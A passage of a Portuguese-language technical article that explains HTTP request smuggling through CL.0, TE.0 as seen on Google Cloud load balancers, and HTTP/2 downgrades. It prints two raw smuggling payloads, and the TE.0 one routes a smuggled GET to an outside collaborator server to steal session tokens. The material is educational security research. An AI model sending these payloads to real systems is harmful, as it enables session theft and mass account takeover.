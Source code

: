 **Um exemplo de requisição para testar a vulnerabilidade CL.0 é**:

```http
POST /vulnerable-endpoint HTTP/1.1
Host: vulnerable-website.com
Connection: keep-alive
Content-Length: 34

GET /hopefully404 HTTP/1.1
Foo: x
```

Se uma requisição de acompanhamento normal para `/` receber uma resposta `404 Not Found`, isso sugere fortemente que o back-end interpretou o corpo da requisição POST (`GET /hopefully404...`) como o início de uma nova requisição.

**Mecanismo TE.0 e o Estudo de Caso do Google Cloud**

A vulnerabilidade TE.0 é uma nova classe de ataque de *smuggling* que foi descoberta em milhares de sites hospedados no Google Cloud que utilizavam o Google Load Balancer. Neste caso, tanto o front-end quanto o back-end podem priorizar Transfer-Encoding, mas um comportamento específico do back-end permite a dessincronização.

Pesquisadores descobriram que, ao enviar uma requisição OPTIONS com `Transfer-Encoding: chunked`, era possível contrabandear uma requisição GET para um servidor colaborador. **O *payload* era semelhante ao seguinte**:

```http
OPTIONS / HTTP/1.1
Host: {HOST}
Transfer-Encoding: chunked
Connection: keep-alive

50
GET http://our-collaborator-server/ HTTP/1.1
x: X
0
```

Ao enviar esta requisição repetidamente, os atacantes conseguiram redirecionar os usuários em tempo real para o seu servidor, o que resultou no vazamento dos tokens de sessão das vítimas. Este ataque permitiu o sequestro de contas em massa com *zero cliques*, mesmo em aplicações protegidas pelo Google Identity-Aware Proxy (IAP), um serviço de segurança alinhado aos princípios de Zero Trust. A vulnerabilidade tornou ineficazes as robustas medidas de segurança do IAP, minando todo o modelo de segurança da aplicação.

### Smuggling por Downgrade de HTTP/2

O protocolo HTTP/2 foi projetado para ser inerentemente imune ao *smuggling* clássico. Em vez de usar cabeçalhos de texto para delimitar mensagens, ele utiliza um formato binário com *frames*, onde cada *frame* tem um campo de comprimento explícito. Isso elimina a ambiguidade entre Content-Length e Transfer-Encoding.

No entanto, a vulnerabilidade ressurge em ambientes de "modo misto", onde um servidor de front-end comunica com os clientes via HTTP/2, mas precisa comunicar com servidores de back-end legados que só entendem HTTP/1.1. Neste cenário, o front-end deve realizar um *downgrade* da requisição, traduzindo-a do formato binário do HTTP/2 de volta para o formato de texto do HTTP/1.1. É durante este processo de tradução que a ambiguidade pode ser reintroduzida.
